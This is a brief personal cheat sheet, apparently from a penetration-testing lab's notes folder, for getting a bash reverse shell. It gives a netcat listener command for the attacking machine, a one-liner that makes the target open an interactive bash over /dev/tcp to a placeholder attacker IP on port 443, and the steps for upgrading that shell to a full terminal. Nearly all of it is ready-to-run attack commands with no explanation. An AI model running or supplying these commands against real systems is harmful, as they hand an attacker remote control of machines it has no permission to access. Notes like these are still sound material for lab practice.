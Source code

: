 # bash

Author: Julien Bongars
Date: 2025-09-21 10:30:31
Path: /opt/development/cybersec/hacklas/notes/infiltration/reverse-shell/bash.md

---

## Source Machine

```bash
nc -lvnp 443
```

## Target Machine

```bash
bash -c "bash -i >& /dev/tcp/{YOUR_IP}/443 0>&1"
```

## Back to Source Machine

### Make fully interactive

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo
fg
export TERM=xterm
```
